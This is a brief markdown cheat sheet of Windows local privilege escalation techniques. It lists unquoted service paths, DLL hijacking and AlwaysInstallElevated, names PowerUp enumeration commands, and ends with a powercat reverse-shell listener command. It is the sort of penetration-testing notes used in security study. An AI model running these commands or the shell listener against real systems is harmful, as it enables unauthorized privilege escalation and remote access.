 # Local Privilege Escalation Techniques - Windows Edition

- UAC and bypass
- Access Token Manipulation
- Exposed credentials (Azure, PowerShell history,...)
- Missing patches
- Automated deployment and Autologon passwords in clear text
- AlwaysInstallElevated (Any User can run MSI as System)
- Misconfigured Services
- Unquoted path
- DLL Hijacking

#### Tools
- PowerUP
- BeRoot
- [Privesc](https://github.com/enjoiz/Privesc)

#### PowerUp
Get services with unquoted paths and a space in their name
```
Get-ServiceUnquoted -Verbose
```

Get services where the currentuser can write to its binary path or change argument to the binary
```
Get-ModifiableServicefile -Verbose
```

Get the services whose configuration current user can modify
```
Get-ModifiableService -Verbose
```

Open a reverse shell listening using powercat
```
powercat -l -p 4444 -v -t 1024
```